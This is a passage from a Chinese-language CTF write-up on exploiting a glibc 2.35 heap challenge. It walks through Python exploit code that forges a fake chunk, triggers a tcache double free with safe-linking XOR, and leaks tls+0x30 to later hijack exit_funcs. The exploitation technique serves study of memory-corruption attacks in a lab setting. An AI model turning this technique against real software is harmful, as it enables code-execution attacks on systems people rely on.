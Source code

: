 - 合并之前

  ![image-20240418151026231](https://awaqwqa.github.io/img/xyctf_heap_pro/image-20240418151026231.png)

- 合并后

  ![image-20240418151102406](https://awaqwqa.github.io/img/xyctf_heap_pro/image-20240418151102406.png)

### 构造fakecchunk

```python
fakechunk = {}
fakechunk["size"] = p64(0x21)
fakechunk["prev_size"] = p64(0)
fakechunk["chunk_list_size"] = p64(0x100)
fakechunk["isUsed"] = p64(1)
// 为触发泄露tls+0x30的double free的fastbinchunk地址
fakechunk["buff"] = p64(fd)
# 已经完成覆写 free index5则可实现任意free
add(14,0x58,b"a"*16+fakechunk["prev_size"]+fakechunk["size"]+fakechunk["chunk_list_size"]+fakechunk["isUsed"]+fakechunk["buff"])
```

- 此时index为5 就是我们劫持的`头chunk` 这里的fd就是我们后面要free的任意chunk

  ![image-20240418151731938](https://awaqwqa.github.io/img/xyctf_heap_pro/image-20240418151731938.png)

## 泄露tls+0x30

> 由于要泄露tls+0x30处的地址 从而来泄露出key值 方便我们去劫持exit_funcs链表 所以我们需要构造一个double free来malloc下来tls附近的内存区域

- 难点

  - 我们需要控制内存对齐 并且还不能破坏到了canary的值 所以我们double free劫持的chunk大小需要够大
  - 实践发现这样会导致tcache中它标注的chunk数量和实际的数量并不对应 如果直接将fd填写为tls处地址 后续的malloc失效 因为tls处的fd位置我们并没有办法控制 大概率会是内存不对齐/内存不可写 所以我们需要后续的malloc
  - glibc2.35下存在fd加密机制 我们的fd需要经过与(base_heap>>12)进行异或操作 才是合法的fd才能够被正常解析 而且经过测试仿佛这里的base_heap会因为我们消耗topchunk一次而发生细微的改变 所以需要gdb手动调试计算出偏差

```python
# 构造一个double free
for i in range(6,11):
    add(i,0x18,b"a"*16)
# 这个chunk是以前为了当作跳板的chunk 但是后面切换了思路没有用了 为了不影响后续的heap计算就没有删除
add(14,0x68,p64(0)+p64(0x100)+p64((xor-0x21)^(tls+0x30)))
for i in range(6,11):
    delete(i)
delete(5)
for i in range(7):
    add(i,0x48,b"a"*8)
add(7,0x48,p64((xor)^(tls)))
for i in range(2):
    add(i,0x48,b"a"*8)
add(0,0x48,b"\x00")
# 泄露tls中信息
res = view(0)
```
